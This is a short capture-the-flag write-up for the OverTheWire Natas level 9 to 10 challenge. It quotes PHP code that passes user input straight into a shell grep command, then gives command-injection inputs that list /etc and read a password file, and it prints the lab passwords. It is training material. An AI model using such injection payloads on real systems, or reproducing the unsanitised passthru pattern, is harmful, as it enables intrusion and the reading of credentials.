 ## [Natas Level 9->10](http://natas9.natas.labs.overthewire.org)
#### Natas9 Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

Looking at the source code, we find:
````
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
````

It looks like $key is the input in "grep -i $key dictionary.txt". If we use a semicolon somewhere in our input, we can divide the line into >1 command.

For example, using the input "; echo 'hi';" will exec the command
````console
grep -i ; echo "hi"; dictionary.txt
````
causing the Output to say "hi".

Navigate files and look for anything suspicious. Eventually, we come across natas_webpass when using the input '; ls ../../../../etc;'. Opening the natas10 file in this folder will likely result in the password for natas10. Use the input '; cat ../../../../etc/natas_webpass/natas10;' to open the correct file.

The password for natas10 is nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu.
